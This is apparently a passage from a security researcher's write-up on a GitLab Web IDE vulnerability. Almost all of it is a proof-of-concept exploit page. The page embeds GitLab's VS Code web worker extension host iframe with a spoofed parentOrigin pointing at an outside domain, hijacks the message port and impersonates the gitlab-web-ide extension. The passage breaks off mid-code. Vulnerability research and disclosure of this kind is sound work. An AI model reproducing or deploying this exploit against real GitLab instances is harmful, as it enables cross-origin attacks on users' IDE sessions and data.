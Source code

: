 Ok now we have little bit idea on the vulnerable component, lets move forward.

From the report we can get hold of a full working poc : <https://peo.si/gl/editor/poc-frame.html>
The domain name is pretty coool btw :p

````html

<iframe src="https://gitlab.com/assets/webpack/gitlab-VSCode/0.0.1-dev-20240501001436/VSCode/out/vs/workbench/services/extensions/worker/webWorkerExtensionHostIframe.html?&VSCodeWebWorkerExtHostId=asdf&parentOrigin=https://peo.si"></iframe>
<script>
    // --- utils ---
    const decoder = new TextDecoder("utf-8")
    const decode = decoder.decode.bind(decoder)

    const encoder = new TextEncoder("utf-8")
    const encode = (str) => encoder.encode(str).buffer

    function hex2buf(hex) {
        hex = "0".repeat(hex.length % 2) + hex
        return new Uint8Array(hex.match(/[\da-f]{2}/gi).map(function (h) {
            return parseInt(h, 16)
        })).buffer
    }

    function buf2hex(buffer) {
        return [...new Uint8Array(buffer)].map(x => x.toString(16).padStart(2, '0')).join('');
    }

    async function fetch_text(...args) {
        const resp = await fetch(...args)
        return resp.text()
    }
    // --- end utils ---

    window.addEventListener("message", function add_port(e) {
        if (e.ports.length > 0) {
            window.removeEventListener("message", add_port)
            const port = e.ports[0]
            window.port = port
            port.onmessage = port_listener
            send_map()
        }
    })

    function send_map() {
        const map = new Map()
        const channel = new MessageChannel()
        map.set("gitlab.gitlab-web-ide", channel.port2)
        frames[0].postMessage({ "type": "VSCode.init", "data": map }, "*", [channel.port2])
    }

    let send_called = false
    function port_listener(e) {
        const rawmsg = e.data
        // console.log("%crecived: " + decode(rawmsg), "color: gray")

        if (!send_called && buf2hex(rawmsg) == "02") { // The message is an init message
            send_called = true
            send_everything()
        }
    }

    function sleep(ms) {
        return new Promise(resolve => {
````